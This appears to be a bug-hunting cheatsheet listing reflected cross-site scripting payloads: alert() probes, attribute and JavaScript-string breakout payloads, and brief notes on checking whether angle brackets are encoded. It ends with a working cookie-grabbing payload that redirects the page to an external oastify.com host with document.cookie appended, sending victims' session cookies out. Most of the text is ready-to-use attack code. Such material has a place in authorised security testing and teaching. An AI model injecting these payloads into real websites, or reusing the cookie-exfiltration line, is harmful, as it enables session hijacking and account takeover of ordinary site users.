 ### Testing Alert
```js
<script>alert(1337)</script>
```
![Screenshot from 2024-06-22 21-24-55](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/a4b3b27e-3e78-438e-90c1-38f3986f5a79)
```js
<svg/ onload=alert(1337)//
<Svg/OnLoad=(confirm)(1337)<!--
">cyborg71<script>alert(1337)</script>
<img src=x onerror=alert(1337)>
```
#### For testing.
```js
"><h1>cyborg.71</h1>
<script onclick="alert(1337)">
" onclick="alert(1337)
" autofocus="alert(1337)
"onmouseover="alert(1)
<a href="javascript:alert('XSS')">Click me</a>
<img src=https://i.imgflip.com/8uo0t9.jpg>
```
### Reflected XSS into attribute with angle brackets HTML-encoded
Inject ```<xss123>'"``` and see if the angle ```<>``` brackets are encoded with ```&lt;``` and ```&gt;```.
  ![Screenshot from 2024-06-12 22-48-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/4bb3d36b-cef6-49ae-ab0d-a4c6ad9c8553)<br>
If this is the case, you should inject this payloads. 
```js
" onclick="alert(1337)
" autofocus="alert(1337)
" autofocus onfocus="alert(1337)
"onmouseover="alert(1)
```
### Reflected XSS into a JavaScript string with angle brackets HTML encoded
Inject ```<xss123>'"``` and see if your payload encoded in a javascript code.<br>
![Screenshot from 2024-06-13 00-19-30](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/9180969c-2299-4adf-9c4a-a05e97629938)<br>
In this case you should try this payload to braek the code to inject maliciuos payload.
```js
xss';alert(1);'xss
```
Finally the code will look like this after response.
![Screenshot from 2024-06-13 00-27-23](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/363ddd77-30a1-48bc-850a-f85b0b92e312)

#### For cookie grabbing.
```js
<script>document.location='https://r91uwnam29s3c1jdsyc8t7t34ualyfm4.oastify.com//'+document.cookie</script> 
```
